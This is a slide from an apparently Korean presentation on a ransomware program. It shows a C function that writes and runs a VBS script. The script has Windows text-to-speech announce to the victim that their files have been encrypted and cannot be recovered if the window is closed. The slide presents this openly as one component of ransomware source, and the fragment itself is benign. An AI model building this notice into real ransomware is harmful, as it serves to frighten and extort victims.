

02 랜섬웨어 프로그램
-#2 복호화 프로그램
#3 TTS
void talk()
{
    FILE *fp = fopen("a.vbs", "w"); //vbs스크립트 사용한 쓰기 파일 열기    fputs("createobject(\"sapi.spvoice\").speak \"주 의! 주 의! 주 의! 당신의 문서, 사진, 그리고 다른 중요한 파일들이 암호화 되었습니다! 이 창을 끌 시 복구 할 수 없습니다.\" \n", fp); //파일에 주의 문구 쓰기
    fclose(fp); //파일 닫기
    system("a.vbs"); //시스템 작동
}